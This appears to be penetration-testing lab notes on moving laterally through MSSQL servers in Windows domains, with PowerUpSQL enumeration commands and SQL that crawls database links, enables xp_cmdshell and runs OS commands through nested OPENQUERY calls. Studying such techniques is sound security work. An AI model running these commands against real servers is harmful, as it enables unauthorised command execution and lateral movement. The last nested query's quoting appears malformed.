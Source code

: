 # MSSQL Servers

## General

- Generally deployed in a lot of Windows domains
- Good option for lateral movement as domain users can be mapped to database roles
- We can use [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) for exploitation
- [Cheatsheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)

## Exploitation

### Enumeration

```powershell
# Discovery (SPN Scanning)
Get-SQLInstanceDomain

# Check accessibility
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose

# Gather information
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

### Database Links

- Database link allows a SQL Server to access exteranl data sources like other SQL server and OLE DB data sources
- For links between SQL servers, we can exectue stored procedures
- Links work across forest trusts

#### Using PowerUpSQL

```powershell
# Look for links to remote server
Get-SQLServerLink -Instance dcorp-mssql -Verbose

# Enumerate database links
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose

# Execute commands
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'"
```

#### Using SQL Queries

```sql
/* Enumerate database links */
select * from master..sysservers

/* Run queries on a linked database through OpenQuery() */
select * from openquery("dcorp-sql1", "select * from master..sysservers")

/* Chain queries to access nested links */
select * from openquery("dcorp-sql", 'select * from openquery("dcorp-mgmt", "select * from master..sysservers")')

/* Enable xp_cmdshell */
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "eu-sql"

/* Execute commands using nested link queries */
select * from openquery("dcorp-sql1", 'select * from openquery("dcorp-mgmt", "select * from openquery("eu-sql.eu.eurocorp.local", ""select @@version as version; exec master..xp_cmdshell "powershell whoami)"")")')
```
